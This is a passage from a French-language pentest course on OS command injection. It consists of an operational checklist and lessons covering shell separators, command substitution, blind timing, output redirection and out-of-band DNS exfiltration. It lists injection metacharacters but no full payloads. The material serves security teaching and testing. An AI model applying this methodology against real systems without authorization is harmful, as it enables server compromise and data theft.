## 9. Checklist opérationnelle

**Prérequis**

- [ ] Point d'entrée identifié transmettant une valeur à un appel système shell côté serveur.
- [ ] Référence de comportement normal établie (réponse et latence) pour ce point d'entrée (§2.2).

**Reconnaissance**

- [ ] Toutes les surfaces de test pertinentes recensées (§3.1), au-delà du seul cas illustré par le cours.
- [ ] Vérification de la présence éventuelle d'un composant intermédiaire susceptible d'altérer les métacaractères avant encodage des payloads.

**Premiers tests**

- [ ] Étape 1 : injection avec séparateur + `echo` sur chaque opérateur du §3.1 (`;`, `&`, `&&`, `|`, `||`, `%0a`).
- [ ] Étape 1b : substitution de commande (`$(...)`, `` `...` ``) et sortie de contexte (guillemets simples et doubles).

**Validation des hypothèses (techniques aveugles)**

- [ ] Étape 2 : temporisation, avec mesure répétée et comparée à la référence.
- [ ] Étape 3 : redirection de sortie vers un chemin accessible publiquement, puis récupération HTTP.
- [ ] Étape 4 : technique OOB/DNS avec service de test préalablement vérifié comme fonctionnel.

**Construction de l'exploitation**

- [ ] OS cible identifié ou déterminé par élimination avant le choix de la syntaxe des commandes de reconnaissance.
- [ ] Étape 5 : exécution de commandes de reconnaissance chaînées via le canal de retour confirmé.

**Vérification de l'impact**

- [ ] Résultat de commande cohérent et vérifiable obtenu (pas seulement un délai ou un code de réponse).
- [ ] Niveau de preuve documenté (comportement anormal / vulnérabilité confirmée / impact démontré) distinctement.

**Diagnostic si l'exploitation échoue**

- [ ] Croisement systématique des résultats entre techniques (notamment avec la temporisation) avant de conclure à une absence d'injection (section 7).

---

## 10. Leçons transférables

**Principes de raisonnement réutilisables sur d'autres vulnérabilités :**

- Progresser des techniques les plus simples à confirmer (visible/in-band) vers les plus complexes (OOB) uniquement lorsque les précédentes ne permettent pas de conclure, plutôt que de sauter directement à la technique la plus sophistiquée.
- Un résultat négatif sur une seule technique de confirmation n'infirme jamais à lui seul l'hypothèse de vulnérabilité — seul l'épuisement cohérent de toutes les techniques disponibles, combiné à un diagnostic des causes d'échec possibles, permet une infirmation raisonnable.
- Toujours établir une référence (latence, comportement normal) avant d'interpréter un signal indirect (délai, absence de sortie).

**Mécanismes techniques propres à cette vulnérabilité à ne pas généraliser :**

- La liste des séparateurs et leur comportement (notamment la différence de `&` entre Unix et Windows) est spécifique à l'invocation de shell et ne se transpose pas telle quelle à d'autres familles d'injection (SQL, LDAP, etc.), qui ont leurs propres métacaractères.
- Les commandes de reconnaissance (§4 du cours) sont strictement dépendantes de l'OS cible ; une commande Linux testée sans succès sur une cible Windows ne doit pas être interprétée comme une infirmation de l'injection elle-même.

**Hypothèses les plus faciles à confondre avec des certitudes :**

- Un échec de l'injection visible (Étape 1) est souvent interprété à tort comme une absence totale de vulnérabilité, alors qu'il ne fait qu'écarter la forme la plus simple (in-band) — les formes aveugles restent à tester.
- Un échec de l'OOB (absence de résolution DNS) peut être confondu avec une absence d'injection, alors qu'il peut simplement refléter une absence de connectivité sortante du serveur, sans rapport avec l'existence de la faille elle-même.

**Compétences pratiques à maîtriser pour exploiter cette vulnérabilité sans aide :**

- Encodage correct des métacaractères shell dans le contexte de transport utilisé (URL, body JSON, en-tête).
- Conduite et interprétation statistique d'un test de temporisation (distinguer un délai provoqué d'un bruit réseau).
- Configuration et usage d'un service Out-of-Band (type Burp Collaborator) pour la détection et l'exfiltration de données.
- Lecture et adaptation des commandes de reconnaissance selon l'OS cible identifié.
